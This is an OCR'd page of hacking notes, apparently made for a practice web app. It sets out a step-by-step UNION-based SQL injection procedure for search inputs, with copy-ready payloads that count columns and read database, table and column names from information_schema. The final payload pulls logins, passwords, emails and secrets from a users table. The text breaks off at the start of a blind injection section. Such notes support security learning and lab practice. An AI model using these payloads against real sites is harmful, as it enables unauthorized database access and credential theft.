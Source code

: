   %3E   -->   >
  %3C	-->   <
	---


---
#### *SQL Injection GET/Search*
---

+--------------+
| Table Return |
+--------------+
1) See if input is exploitable
'
we should get an error returned...

2) Get number of columns
' ORDER BY 7 -- -
' ORDER BY 7#

keep incrementing until error, it
is the number before error...

3) Get the database name
' UNION ALL SELECT 1,database(),3,4,5,6,7 -- -

4) Get the tables in the database
' UNION ALL SELECT 1,table_name,2,4,5,6,7 FROM information_schema.tables

this will get all tables for every database...

' UNION ALL SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=database() -- -

this will only list tables in the current database...

5) Get the columns names for the tables
' UNION ALL SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users' and table_schema=database() -- -

6) Get data from columns
' UNION ALL SELECT 1,login,password,email,secret,6,7 FROM users -- -
---

---
#### *Blind SQL Injection*
---



+----------------+
| Boolean Return |
+----------------+
1) Find something that returns true
Iron Man
